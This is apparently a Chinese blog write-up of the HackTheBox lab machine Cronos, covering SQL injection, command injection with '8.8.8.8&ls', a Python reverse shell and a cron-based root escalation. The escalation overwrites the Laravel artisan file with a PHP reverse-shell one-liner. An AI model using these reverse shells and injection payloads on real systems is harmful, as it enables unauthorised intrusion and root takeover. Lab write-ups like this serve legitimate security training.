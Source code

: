 ```yaml
---
title: Crons
date: 2021-10-14
swiper: false # 将改文章放入轮播图中
swiperImg: '/medias/1.jpg' # 该文章在轮播图中的图片，可以是本地目录下图片也可以是http://xxx图片
img: 'http://cdn.mxrblog.cn/ct_7.jpg' # 该文章图片，可以是本地目录下图片也可以是http://xxx图片
categories: walkthrough
tags: [渗透测试, 靶机]
top: false
---
```




# cronos

- **Cronos是hackthebox的一台中等难度的靶机**

- 按例nmap扫描端口和漏洞

![image-20211014021033596](http://cdn.mxrblog.cn/image-20211014021033596.png)

- nmap没扫出什么有价值的漏洞

![image-20211014021207296](http://cdn.mxrblog.cn/image-20211014021207296.png)

- 打开浏览器查看开放的内容，没啥有用的

![image-20211014021947859](http://cdn.mxrblog.cn/image-20211014021947859.png)

- gobuster目录扫描，也没什么意思

![image-20211014021418084](http://cdn.mxrblog.cn/image-20211014021418084.png)

- 在host文件中添加以下内容  (别问，问就是猜的)

`10.10.10.13   cronos.htb`

![image-20211015114349504](http://cdn.mxrblog.cn/image-20211015114349504.png)

- 查看能否登录这个域名

![image-20211015114537540](http://cdn.mxrblog.cn/image-20211015114537540.png)

- dirsearch走起

![image-20211015115004925](http://cdn.mxrblog.cn/image-20211015115004925.png)

- 这个域名没没有什么有用的东西，使用`host -l`查看是否还有其他域名

![image-20211015120436721](http://cdn.mxrblog.cn/image-20211015120436721.png)

- 将这些域名添加到host文件中

![image-20211015120632914](http://cdn.mxrblog.cn/image-20211015120632914.png)

- 这些域名分别登录后发现 admin.cronos.htb 这个域名内可以进行sql注入

![image-20211015120849405](http://cdn.mxrblog.cn/image-20211015120849405.png)

- 使用sql登录后查看

![image-20211015121343287](http://cdn.mxrblog.cn/image-20211015121343287.png)

- 输入框里面内容为： `8.8.8.8&ls`

![image-20211015121555225](http://cdn.mxrblog.cn/image-20211015121555225.png)

- 说明我们可以在输入框中发送一个反弹shell

- 使用python反弹shell，kali使用nc监听4443端口

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.23",4443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![image-20211015122952627](http://cdn.mxrblog.cn/image-20211015122952627.png)

- 获取一个交互式shell

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

![image-20211015123119595](http://cdn.mxrblog.cn/image-20211015123119595.png)

- 获得user.txt

![image-20211015123327093](http://cdn.mxrblog.cn/image-20211015123327093.png)

- 使用提权工具linpeas.sh查看是否有可提权的文件存在

![image-20211015182856693](http://cdn.mxrblog.cn/image-20211015182856693.png)

- 发现定时执行的文件

![image-20211015184728900](http://cdn.mxrblog.cn/image-20211015184728900.png)

- 如果我们检查 /var/www/laravel/artisan 文件，我们会看到我们拥有它并且可以修改它！我们可以替换或附加 php 代码到这个文件来触发一个 root shell

![image-20211016004054448](http://cdn.mxrblog.cn/image-20211016004054448.png)

- 我们将用一个简单的一行 PHP 脚本替换该文件，以便在端口 9999 上向我们发送一个反向 shell，如下所示。之后，我们设置一个 netcat 侦听器并等待我们的 root shell 到达

```
echo '<?php $sock=fsockopen("10.10.14.4",9999);exec("/bin/sh -i <&3 >&3 2>&3"); ?>' > /var/www/laravel/artisan
```

![image-20211016004910449](http://cdn.mxrblog.cn/image-20211016004910449.png)

![image-20211016005231886](http://cdn.mxrblog.cn/image-20211016005231886.png)

![image-20211016005328866](http://cdn.mxrblog.cn/image-20211016005328866.png)

